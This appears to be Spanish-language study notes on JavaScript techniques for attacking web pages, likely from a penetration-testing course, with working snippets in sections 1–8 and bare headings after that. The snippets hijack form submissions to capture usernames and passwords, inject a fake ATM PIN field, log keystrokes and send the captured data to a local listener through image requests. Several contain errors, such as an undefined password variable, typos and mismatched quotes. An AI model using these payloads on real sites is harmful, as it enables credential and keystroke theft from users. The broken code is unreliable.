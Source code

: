 #### CallBack
> Recibir como parámetro a una función  
> Es una forma de asegurarnos de q un determinando codigo no se ejecuta hasta que otro codigo haya terminado de ejecutarse

### 1. Modificar HTML
**getElementsByTagName()** acepta un nombre de etiqueta y devuelve una colección HTML en vivo de elementos con el nombre de etiqueta coincidente en el orden en que aparecen en el documento.

```
document.getElementsByTagName("button")[0].innerHTML="JAVASCRIPT";
document.getElementsByTagName("h1")[0].innerHTML="Found";
```

### 2. Modificar los links
```
var links = document.getElementsByTagName("a");
for  (i=0; i<links.length; i++){
  links[i].href = "http://debiantano.github.io";
  links[i].innerHTML = "Link Modificado";
}
```

### 3. Hijack form submit
> Número de elementos <form> en el documento:  
```let num = document.forms.length;```  
> Obtenga la identificación del primer elemento <form>:  
```let id = document.forms[0].id;```  

```
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  alert(username + ' : ' + password);
}
document.forms[0].onsubmit = InterceptForm;
```

```
> python -m SimpleHTTPServer 8000
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  new Image().src = "http://localhost:8000/?username=' + username + "&password=" + password;
}
document.forms[0].onsubmit = InterceptForm;
```

### 4. Modify form fields
```
var input = document.createElement("input");

input.setAttribute("type", "text");
input.setAttribute("class", "input-block-level");
input.setAttribute("placeholder", "ATM PIN");
input.setAttribute("name", "atmpin");

var provius = document.forms[0].elements[0];

document.forms[0].insertBefore(input, previous);
docuemnt.forms[0].action = "http://localhost:8000/"
```

### 5. Ingenieria social
```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
```

```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
document.forms[0].parentNode.appendChild(document.forms[0)
```

### 6. Capture all clicks
```
function CaughtClick(){
  alert("You clicked");
}
document.body.addEventListener('click', CaughtClick, true);
```

```
function CaughtClick(){
  location.href = "https://google.es";
}
document.body.addEventListener('click', CaughtClick, true);
```

### 7. Keystroke logging
```
> python -m SimpleHTTPServer 8000
document.onkeypress = function Keylogger(inp){
  key_pressed = String.fromCharCode(inp.which);
  new Image().src = "http://localhost:9000/?" + key_pressed;
}
```

### 8. Event listener
```
" anmouseover="alert(1);

document.forms[0].onsubmit = function demo(){
  var pass = document.forms[0].elements[1].value;
  alert(pass);
}
```

### 9. Include external
### 10. Include external js using
### 11. Solution replace banner
### 12. Solution Stealing from autocomplete
### 13. Posting with xmlHTTPrequest
### 14. Fetching data with xmlHTTPrequest
### 15. Data exfiltration with xmlHTTPrequest
### 16. Extraching CSRF tokens
### 17. CSRF token stealing
### 18. HTML parsing of xmlHTTPrequest response
### 19. Solution multilevel html parsing
### 20. Solution multilevel js parsing
### 21. Solution multilevel xml parsing

